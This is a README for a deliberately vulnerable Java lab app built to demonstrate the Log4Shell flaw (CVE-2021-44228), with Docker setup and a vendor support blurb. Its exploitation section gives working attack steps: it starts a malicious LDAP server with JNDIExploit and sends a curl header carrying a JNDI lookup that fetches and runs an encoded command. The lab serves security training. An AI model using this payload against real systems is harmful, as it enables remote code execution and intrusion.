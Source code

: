 # TekiumLog4jApp v1.0

Author: Erick Rodríguez 

Email: erickrr.tbd93@gmail.com, erodriguez@tekium.mx

License: GPLv3

Application developed in Java that simulates an application vulnerable to CVE-2021-44228. 

It uses Log4j 2.11.1 and JDK 1.8.0_181.

![TekiumLog4jApp](https://github.com/erickrr-bd/TekiumLog4jApp/blob/master/screens/screen.jpg)

# Running

Run it:

`docker run --name tekiumlog4japp -p 8080:8080 d0ck3rt3k1umhub/tekiumlog4japp:v1`

Build the Docker image by yourself:

`docker build . -t tekiumlog4japp`

`docker run -p 8080:8080 --name tekiumlog4japp tekiumlog4japp`

# Exploitation Steps

<i>Note: This project is inspired by the <a href="https://github.com/christophetd/log4shell-vulnerable-app">christophetd</a> project.</i>

- Use <a href="https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip">JNDIExploit</a> to spin up a malicious LDAP server

`wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip`

`unzip JNDIExploit.v1.2.zip`

`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888`

- Then, trigger the exploit using:

`curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC90ZWtpdW1fcHJ1ZWJh}'`

- Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

![TekiumLog4jApp](https://github.com/erickrr-bd/TekiumLog4jApp/blob/master/screens/response.jpg)

- To confirm that the code execution was successful, notice that the file /tmp/tekium_prueba was created in the container running the vulnerable application:

`docker exec tekiumlog4japp ls /tmp`

# Commercial Support
![Tekium](https://github.com/unmanarc/uAuditAnalyzer2/blob/master/art/tekium_slogo.jpeg)

Tekium is a cybersecurity company specialized in red team and blue team activities based in Mexico, it has clients in the financial, telecom and retail sectors.

Tekium is an active sponsor of the project, and provides commercial support in the case you need it.

For integration with other platforms such as the Elastic stack, SIEMs, managed security providers in-house solutions, or for any other requests for extending current functionality that you wish to see included in future versions, please contact us: info at tekium.mx

For more information, go to: https://www.tekium.mx/

